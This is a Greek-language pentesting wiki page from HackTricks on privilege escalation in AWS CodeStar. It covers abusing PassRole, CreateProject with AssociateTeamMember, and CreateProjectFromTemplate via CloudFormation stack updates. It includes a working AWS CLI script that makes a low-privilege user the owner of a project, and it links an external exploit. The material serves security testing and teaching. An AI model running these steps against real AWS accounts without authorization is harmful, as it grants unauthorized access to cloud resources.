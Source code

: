 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

Μπορείτε να βρείτε περισσότερες πληροφορίες σχετικά με το codestar στο:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

Με αυτές τις άδειες μπορείτε να **καταχραστείτε έναν ρόλο IAM του codestar** για να εκτελέσετε **τυχαίες ενέργειες** μέσω ενός **cloudformation template**. Ελέγξτε την παρακάτω σελίδα:

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Αυτή η τεχνική χρησιμοποιεί το `codestar:CreateProject` για να δημιουργήσει ένα έργο codestar, και το `codestar:AssociateTeamMember` για να κάνει έναν χρήστη IAM **ιδιοκτήτη** ενός νέου έργου CodeStar, το οποίο θα του παραχωρήσει μια **νέα πολιτική με μερικές επιπλέον άδειες**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Αν είστε ήδη **μέλος του έργου**, μπορείτε να χρησιμοποιήσετε την άδεια **`codestar:UpdateTeamMember`** για να **ενημερώσετε το ρόλο σας** σε ιδιοκτήτη αντί για `codestar:AssociateTeamMember`.

**Πιθανές Επιπτώσεις:** Privesc στην πολιτική codestar που δημιουργήθηκε. Μπορείτε να βρείτε ένα παράδειγμα αυτής της πολιτικής στο:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **Δημιουργία Νέου Έργου:**
- Χρησιμοποιήστε την ενέργεια **`codestar:CreateProjectFromTemplate`** για να ξεκινήσετε τη δημιουργία ενός νέου έργου.
- Μετά την επιτυχή δημιουργία, η πρόσβαση παρέχεται αυτόματα για **`cloudformation:UpdateStack`**.
- Αυτή η πρόσβαση στοχεύει συγκεκριμένα σε μια στοίβα που σχετίζεται με τον ρόλο IAM `CodeStarWorker-<generic project name>-CloudFormation`.
2. **Ενημέρωση της Στοίβας Στόχου:**
- Με τις παραχωρηθείσες άδειες CloudFormation, προχωρήστε στην ενημέρωση της καθορισμένης στοίβας.
- Το όνομα της στοίβας θα συμμορφώνεται συνήθως με ένα από τα δύο πρότυπα:
- `awscodestar-<generic project name>-infrastructure`
- `awscodestar-<generic project name>-lambda`
- Το ακριβές όνομα εξαρτάται από το επιλεγμένο πρότυπο (αναφορά στο παράδειγμα exploit script).
3. **Πρόσβαση και Άδειες:**
- Μετά την ενημέρωση, αποκτάτε τις δυνατότητες που έχουν ανατεθεί στον **ρόλο IAM CloudFormation** που συνδέεται με τη στοίβα.
- Σημείωση: Αυτό δεν παρέχει εγγενώς πλήρη δικαιώματα διαχειριστή. Μπορεί να απαιτούνται επιπλέον κακώς ρυθμισμένοι πόροι εντός του περιβάλλοντος για να αυξήσετε περαιτέρω τα δικαιώματα.

Για περισσότερες πληροφορίες, ελέγξτε την αρχική έρευνα: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Μπορείτε να βρείτε το exploit στο [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο IAM cloudformation.

{{#include ../../../../banners/hacktricks-training.md}}

